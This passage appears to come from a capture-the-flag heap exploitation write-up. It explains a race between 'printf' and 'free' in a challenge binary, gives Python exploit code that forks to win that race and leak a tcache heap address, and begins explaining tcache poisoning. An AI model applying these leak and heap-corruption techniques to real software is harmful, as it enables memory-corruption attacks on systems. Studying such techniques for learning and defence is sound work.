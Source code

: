 and ideally, we would like to see the a few operations mixed up in the following sequences, where `printf 0` is broken down into `strlen(a)` and `write(1, a, length)` and being mixed with free

```
strlen(a) --> free 0 --> write(1, a, length) --> stored[0] = 0
```

thus, we can bypass the protection in `free` operation and print something inside a freed chunk, likely a **heap address**. So we get a heap address with the following python exploit code that uses the idea I went through above:

```py
def leak_tcache(r1, r2):
	if os.fork() == 0: # .fork() duplicates a new process. There will be exactly two processes - child and parent running the same python script at the same time
	
	# os.fork() == 0 is the child, child does the following
		for _ in range(10000):
			r1.sendline(b"malloc 0")
			r1.sendline(b"scanf 0")
			r1.sendline(b"AAAABBBB")
			r1.sendline(b"free 0") # hope for write() of printf to go right after this
		exit(0) # kills the child
		
	# else, parent (os.fork() returns pid
	else:
		for _ in range(10000):
			r2.sendline(b"printf 0")
		os.wait() # waits for the child to finish
	output_set = set(r2.clean().splitlines())
	# .clean() gets the output
	# .splitlines() split the output by lines
	# set() gets the unique lines
	print(output_set)
	for output in output_set:
		output = output[9:]
		if output[:1] != b'\x41' and b'\x07' in output: # for bytes object, output[i] outputs integer
			result = output[:6]
			print(result)
			return u64(result.ljust(8, b'\x00'))
	return 0
```


# tcache poisoning

after getting a heap address leak, we can break safe-linking perform tcache poisoning! I will now explain what safe-linking and tcache poisoning are.

First of all, what is a tcachebin?

tcachebin is like one of the type of rubbish bin in heap. It is where the `freed` aka deleted chunks go into. And it supports a `FILO` (First in Last Out) mechanism. And the chunks would have a `next pointer` or `foward pointer` which points to the chunk that is `freed` just a moment earlier before it.
